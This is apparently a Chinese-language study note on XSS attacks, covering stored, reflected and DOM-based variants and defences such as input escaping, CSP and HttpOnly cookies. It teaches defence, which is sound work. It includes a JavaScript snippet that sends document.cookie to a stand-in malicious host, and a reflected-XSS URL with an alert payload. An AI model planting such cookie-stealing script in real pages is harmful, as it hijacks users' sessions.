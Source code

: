### 浏览器安全-XSS攻击

全称Cross Site Scripting 就是跨网站脚本

也就是**恶意程序往HTML文件中插入JS代码**

![image-20250514081323643](https://typora-an.oss-cn-hangzhou.aliyuncs.com/%E5%89%8D%E7%AB%AF/image-20250514081323643.png)

```js
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

### 攻击方式

- 恶意脚本可以通过document.cookies窃取用户的 Cookie 数据，并将其作为参数添加至恶意站点尾部发送到黑客服务器中

- 可以通过监听用户行为获取用户输入的信用卡信息并发送给恶意服务器,  用的是JavaScript中的`addEventListener` 监听用户的键盘事件

- 可以通过修改DOM制造假的登录窗口, 欺骗用户输入用户名和密码等信息.

- 可以页内生成浮窗广告, 影响用户体验

**这就是XSS攻击, 为了解决XSS攻击, 浏览器引入了内容安全策略, 称为CSP, CSP的核心思想就是让服务器可以决定浏览器加载哪些资源, 让服务器决定浏览器是否执行内联JavaScript代码.  这样就可以大大减少XSS攻击**

### XSS攻击种类

#### 存储性XSS 引入恶意脚本代码

将恶意代码存储到有漏洞的服务器, 访问含有恶意脚本的页面就会自动加载恶意脚本, 然后恶意脚本就会上传你的cookie到他们的服务器

#### 反射型XSS 放到URL上了

比如说你设置了视图要展示xss参数, 然后点击了一个恶意链接是`http://localhost:3000/?xss= <script>alert('你被xss攻击了')</script> ` 就会导致xss被替换成了`<script>alert('你被xss攻击了')</script>`

**恶意脚本本身是作为请求参数发送到站点页面存在漏洞的地方（通常是搜索框），然后脚本反射（出现）在新渲染（或者部分刷新）的页面并执行。**

#### 基于DOM的XSS

比如通过网络传输页面过程中修改HTML页面内容, 有的用wifi路由器劫持, 有的是本地恶意软件, 主要就是在web资源传输过程中或用户使用页面的过程中修改web页面的数据.

### 如何阻止XSS攻击

1. 对于存储型和反射型可以在**前端过滤关键字以及服务端对一些关键的字符进行转码**

   ​	比如对关键的字符进行转码, 比如把script标签包裹的内容全部替换成空, 这样就可以防止请求的时候携带脚本,  脚本也不会执行

2. **充分利用CSP**

   在获取HTML时配置HTTP头Content-Security-Policy

   https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

   1. 限制加载其他域下的资源文件这样即使插入了一个JavaScript脚本也不会被加载
   2. 禁止向第三方域提交数据, 这样用户数据不会泄漏
   3. 禁止执行内联脚本和未授权脚本
   4. 还有上报机制, 可以帮助发现有哪些XSS攻击, 便于修复

3. **使用HttpOnly属性**

   ​	很多XSS攻击都是盗用cookie, 因此可以通过服务器设置响应头中的set-cookie中的HttpOnly属性来保护cookie的安全, 使用HttpOnly的cookie在控制台中也是不一样的,  无法用JavaScript来读取, 比如document.cookie就无法读取到了

   ![image-20250514081731718](https://typora-an.oss-cn-hangzhou.aliyuncs.com/%E5%89%8D%E7%AB%AF/image-20250514081731718.png)

   ​	
